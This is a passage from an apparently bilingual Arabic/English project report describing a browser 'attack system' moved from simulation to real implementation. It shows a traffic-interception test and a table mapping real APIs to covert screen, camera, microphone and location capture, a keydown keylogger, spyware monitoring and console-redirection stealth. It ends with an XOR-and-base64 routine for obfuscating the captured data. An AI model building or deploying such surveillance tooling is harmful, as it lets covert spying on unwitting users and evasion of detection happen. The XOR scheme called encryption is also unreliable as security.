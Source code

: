 ### ✅ **ه. اختبار اعتراض حركة المرور:**
```javascript
// اختبار فعلي
const result = await realAttackSystem.interceptTrafficReal();
console.log('نتيجة اعتراض حركة المرور:', result);
// النتيجة: true - نجح في اعتراض حركة المرور
```

---

## 5. مقارنة التنفيذ الفعلي مقابل المحاكاة
### 5. Real Implementation vs Simulation Comparison

| الميزة | المحاكاة (القديمة) | التنفيذ الفعلي (الجديدة) |
|--------|-------------------|------------------------|
| التقاط الشاشة | `/* تعليق */` | `navigator.mediaDevices.getDisplayMedia()` |
| التقاط الكاميرا | `/* تعليق */` | `navigator.mediaDevices.getUserMedia()` |
| التقاط الميكروفون | `/* تعليق */` | `MediaRecorder` |
| الحصول على الموقع | `/* تعليق */` | `navigator.geolocation.getCurrentPosition()` |
| اعتراض حركة المرور | `/* تعليق */` | Service Worker فعلي |
| حظر الاتصالات | `/* تعليق */` | Service Worker فعلي |
| Keylogger | `/* تعليق */` | `addEventListener('keydown')` |
| Spyware | `/* تعليق */` | مراقبة النشاط الفعلي |
| التخفي | `/* تعليق */` | إعادة توجيه console |
| التشفير | `/* تعليق */` | تشفير فعلي للبيانات |

---

## 6. التحقق من الأمان والتخفي
### 6. Security and Stealth Verification

### ✅ **أ. التشفير:**
```javascript
// تشفير فعلي للبيانات
encryptData(data) {
    try {
        const jsonData = JSON.stringify(data);
        const encoder = new TextEncoder();
        const dataBuffer = encoder.encode(jsonData);
        
        // تشفير بسيط (في التطبيق الحقيقي سيتم استخدام تشفير أقوى)
        const encrypted = Array.from(dataBuffer).map(byte => byte ^ 0xAA);
        return btoa(String.fromCharCode(...encrypted));
    } catch (error) {
        console.error('❌ فشل في تشفير البيانات:', error);
        return btoa(JSON.stringify(data));
    }
}
```
